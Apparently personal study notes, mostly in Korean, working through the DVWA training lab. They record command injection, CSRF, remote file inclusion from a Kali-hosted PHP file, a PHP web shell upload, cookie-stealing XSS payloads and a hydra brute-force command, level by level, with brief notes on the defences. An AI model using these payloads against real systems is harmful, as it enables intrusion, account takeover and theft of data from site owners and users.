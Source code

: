 
# DVWA(Command Injection)
IP : 192.168.56.150
## security : low
Enter an IP address: 192.168.56.102(Kali IP)
	핑 출력
burp suite - intercept
	ip = 192.168.56.102&Submit=Submit
& cat /etc/passwd
	/etc/passwd파일 출력됨
curl --cookie "PHPSESSID=쿠키값; security=low" http://192.168.56.150/vulnerabilities/exec/ --data "ip=192.168.56.102 -c 2&Submit=Submit"
	핑 2줄 출력
curl --cookie "PHPSESSID=쿠키값; security=low" http://192.168.56.150/vulnerabilities/exec/ --data "ip=192.168.56.102 -c 2;cat /etc/passwd&Submit=Submit"
	핑 2줄 + /etc/passwd 내용 출력
페이지 소스
	shell_exec( )
		`== system( )
		`== passthru( )
## security : medium
& id
	현재 사용자에 대한 정보 출력
페이지 소스
	substitutions
		&& = ''
		; = ''
		&&과 ; 는 공백처리
		&로 Injection 가능
## security : high
& id : 안됨
페이지 소스
	substitutions
		&
		;
		|
		-
		$
		(
		)
		||
		`` `
		'| '를 삭제하고 있으므로 '|' 파이프라인을 이용해서 취약점 공략 가능
## security : impossable
token 값 이용
숫자값 검증
Injection으로는 취약점 공략 힘듦

# DVWA(CSRF(Cross Site Request Forgery))
CSRF(Cross Site Request Forgery) : 사이트 간 요청 대행
네이버 또는 구글 메일
메일 쓰기
HTML
`<p><img src="http://192.168.56.150/vulnerabilities/csrf/?password_new=1234&password_conf=1234&Change=Change"><br></p>

# DVWA(File Inclusion)
## security : low
http://192.168.56.150/vulnerabilities/fi/?page=/etc/passwd
	/etc/passwd 파일 읽을 수 있음
systemctl start apache2
vi /var/www/html/rfi.txt
	<?php
	system('uname -a; id');
	?>
http://192.168.56.150/vulnerabilities/fi/?page=http://192.168.56.102/rfi.txt
## security : medium
http://192.168.56.150/vulnerabilities/fi/?page=/etc/passwd
	가능
http://192.168.56.150/vulnerabilities/fi/?page=http://192.168.56.102/rfi.txt
	불가능
페이지 소스
	http://, https:// 를 ""으로 대체
http://192.168.56.150/vulnerabilities/fi/?page=http://192.168.56.102/rfi.txt
	가능
http://192.168.56.150/vulnerabilities/fi/?page=htthttp://p://192.168.56.102/rfi.txt
	가능
## security : high
!fnmath("file*", $file) && $file != "include.php"
http://192.168.56.150/vulnerabilities/fi/?page=file:///etc/passwd
	가능
## security : impossible
http://192.168.56.150/vulnerabilities/fi/?page=file:///etc/passwd
	불가능
file 1 ~ 3 을 지정하여 다른 파일은 실행 못하게 설정함.
같은 이름을 가진 파일을 업로드하여 실행하도록 할 수 있음

# DVWA(File Upload)
## security : low
jpg 파일 업로드 가능
../../hackable/uploads/m2ashell.php.jpg
php 파일 업로드 가능
cp /var/www/html/rfi.txt /home/kali/fu.php
vi /home/kali/fu.php
	`<pre>`
	`<?php`
	`system($_GET['cmd']);`
	`?>`
	`</pre>`
fu.php 파일 업로드
http://192.168.56.150/hackable/uploads/fu.php?cmd=id
	가능
## security : medium
jpg 파일 업로드 가능 / php 파일 업로드 불가능
cp /home/kali/fu.php /home/kali/fu.php.jpg
fu.php.jpg 업로드할 때 burp suite로 intercept
	filename="fu.php"로 변경
	forward
	업로드 완료
## security : high
확장자뿐만 아니라 size도 확인
실제 이미지 다운
jpeg으로 저장
exiftool /home/kali/Downloads/cat.jpeg
`exiftool -w ~:<?php system('id'); ?>
## security : impossible
type까지 확인

# DVWA(Insecure CAPTCHA)
API 인증키를 등록

# DVWA(XSS(Reflected))
## security : low
`<script>alert(document.cookie)</script>
## security : medium
`<SCRIPT>alert("hack")</SCRIPT>
## security : high
`'/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', ''
	대소문자 모두 공백으로 대체
	`<img src=x onerror=alert(document.cookie)>
## security : impossible
`<img src=x onerror=alert(document.cookie)>
	Hello `<img src=x onerror=alert(document.cookie)>
htmlspecialchars : 특수문자를 치환하여 일반문자로 취급
	< : &lt;
	> : &gt;
	
# DVWA(XSS(Stored))
## security : low
f12 -> Inspector
	maxlength 삭제
Name : `<script>alert("Hack")</script>
	`<img src=x onerror=alert(document.cookie)>
Message : `<script>alert(document.cookie)</script>
	`<svg onload=alert('XSS TEST')>
	`<body topmargin=0 leftmargin=0 onload="document.body.innerHTML='<iframe width=100% height=800 src=www.daum.net/></iframe>',">
		인터넷이 된다면 외부의 웹사이트 출력 가능
## security : medium
`<script>alert('Test')</script>
	안됨
페이지 소스
	name : `<script> 대체
Name : `<img src=x onerror=alert(document.cookie)>
Message :`<svg onload=alert('SVG_Test')>
## security : high
Name : `<img src=x onerror=alert(document.cookie)>
페이지 소스
	`'/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', ''
## security : impossible
토큰 사용
입력에 대해 검증

# DVWA(Brute Force)
무작위 대입
vi weakuser.txt
	root
	spring
	winter
	dragon
	admin
	administrator
hydra 192.168.56.150 http-form-get "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie: security=low;PHPSESSID=쿠키값:Username and/or password incorrect." -L weakuser.txt -P weakpass.txt
